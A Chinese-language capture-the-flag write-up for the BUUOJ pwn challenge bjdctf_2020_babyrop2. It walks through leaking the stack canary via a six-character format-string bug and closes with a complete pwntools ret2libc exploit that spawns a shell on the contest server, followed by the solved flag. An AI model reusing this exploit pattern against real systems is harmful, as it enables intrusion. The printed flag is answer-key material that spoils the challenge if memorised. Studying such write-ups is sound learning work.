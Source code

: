 # bjdctf_2020_babyrop2

[题目地址](https://buuoj.cn/challenges#bjdctf_2020_babyrop2)

其实没什么新知识点，不过想趁这个帖子总结一下之前遇到的小细节。

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

canary，那么出题人要用什么方式来帮助我们泄露呢？

```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  gift();
  vuln();
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

看看送了什么好玩意。

```c
void gift(void)

{
  long in_FS_OFFSET;
  char local_18 [8];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("I\'ll give u some gift to help u!");
  __isoc99_scanf(&%6s,local_18);
  printf(local_18);
  puts("");
  fflush((FILE *)0x0);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

格式化字符串啊，没什么创意但是我很喜欢。

```c
void vuln(void)

{
  long in_FS_OFFSET;
  undefined local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Pull up your sword and tell me u story!");
  read(0,local_28,100);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

更没有创意了。先考虑如何泄露canary，也就是找格式化字符串的偏移。之前习惯那种几个a加上一堆%p找偏移的办法，现在限制只有6个字符一时间不知道怎么找。在gdb的插件pwndbg中有fmtarg的命令，但是我是原生gdb。思考片刻，发现也很简单。local_18的位置是rbp-0x10，ida直接看，ghidra可以往下翻找到local_18的引用，里面就有相对位置。

```
        00400835 48 8d 45 f0     LEA        RAX=>local_18,[RBP + -0x10]
```

我们要泄露的对象在rbp-0x8，所有64位程序canary的位置都是这个，32位则是ebp-0x4。然后随便找个地方下断点，我这里找了printf刚调用完后，应该哪里都行的。

```
Breakpoint 5, 0x000000000040085c in gift ()
(gdb) x/s $rbp-0x10
0x7fffc39aa760: "a"
(gdb) x/s $rbp-0x8
0x7fffc39aa768: ""
```

canary是0x7fffc39aa768，local_18在0x7fffc39aa760，计算偏移的公式是 目标位置-格式化字符串位置-1，也就是%7\$p，%7表示打印相对当前格式化字符串位置的第7个内容，$p表示以指针形式（这个不太确定，这个参数在64位按8个，32位按4个打印，遵循字长）。canary搞定，整个程序里使用的canary都是一样的，所以不用担心gift函数里得到的canary在vuln不能用。

然后老生常谈的泄露地址ret2libc。注意64位的地址永远以\x7f开头，所以recvuntil('\x7f')很好用；同时接收到的字节一般不足8位，ljust(8,b'\x00')完美解决。recvuntil有个可选参数是drop，设置为true就会丢掉参数设定的字符，比如recvuntil('\n')的结果是xxx\n，而recvuntil('\n',drop=True)的结果是xxx。

```python
from pwn import *
p = remote('node4.buuoj.cn',29807)
puts_plt=0x00400610
puts_got=0x00601018
pop_rdi=0x0000000000400993
payload='%7$p'
p.sendline(payload)
p.recvuntil('0x',drop=True)
canary=int(p.recvuntil('\n',drop=True),16)
payload=b'a'*(0x28-16)+p64(canary)+p64(0)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(0x00400887)
p.sendlineafter("Pull up your sword and tell me u story!\n",payload)
puts_addr=u64(p.recvuntil('\x7f').ljust(8,b'\x00'))
libc_base=puts_addr-456336
system_addr=libc_base+283536
binsh=libc_base+0x000000000018cd57
payload=b'a'*(0x28-16)+p64(canary)+p64(0)+p64(pop_rdi)+p64(binsh)+p64(system_addr)+p64(0x00400887)
p.sendline(payload)
p.interactive()
```

### Flag
> flag{3c7a693b-ffeb-4287-891d-388052d020e9}